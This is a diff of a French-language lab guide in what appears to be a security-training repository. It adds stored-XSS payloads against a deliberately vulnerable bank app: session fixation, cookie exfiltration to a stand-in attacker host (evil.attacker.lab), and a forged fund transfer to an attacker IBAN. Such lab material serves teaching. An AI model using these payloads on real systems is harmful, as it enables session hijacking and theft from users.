

Before and after one commit to RedaMohssine/cyber, a Markdown page: docs/GUIDE-COMPLET.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/docs/GUIDE-COMPLET.md
+++ b/docs/GUIDE-COMPLET.md
@@ -686,9 +686,27 @@ http://vuln.bank.local:8080/login.php?PHPSESSID=ATTACKERfixedSID001
 Connecte-toi avec `mallory / EvilPass1!`. Va sur `comments.php` et poste ce commentaire :
 
 ```html
-<script>document.cookie="PHPSESSID=ATTACKERfixedSID001; path=/";window.location.href='/login.php?msg=Session expirée. Veuillez vous reconnecter.';</script>
+<script>
+document.cookie="PHPSESSID=ATTACKERfixedSID001; path=/";
+new Image().src="http://evil.attacker.lab:8080/collect.php?m=stored-xss&sid=ATTACKERfixedSID001&c="+encodeURIComponent(document.cookie);
+window.location.href='/login.php?msg=Session expirée. Veuillez vous reconnecter.';
+</script>
 ```
-
+```html
+<script>document.cookie="PHPSESSID=ATTACKERfixedSID001; path=/";new Image().src="http://evil.attacker.lab:8080/collect.php?m=stored-xss&sid=ATTACKERfixedSID001&c="+encodeURIComponent(document.cookie)+"&url="+encodeURIComponent(location.href);</script>
+```
+```html
+<script>
+var f = new FormData();
+f.append('to_iban', 'FR7630001007940000000000042');
+f.append('amount', '999');
+f.append('note', 'Transfert automatique');
+fetch('/transfer.php', {method:'POST', credentials:'include', body:f})
+  .then(function(){
+    new Image().src='http://evil.attacker.lab:8080/collect.php?m=csrf-done&sid=done';
+  });
+</script>
+```
 Ce script fait deux choses :
 1. Écrase le cookie PHPSESSID avec `ATTACKERfixedSID001`
 2. Redirige vers le login avec un faux message d'erreur — Alice ne suspecte rien
````
Also changed, not shown: other parts of docs/GUIDE-COMPLET.md (+67 -29 lines).
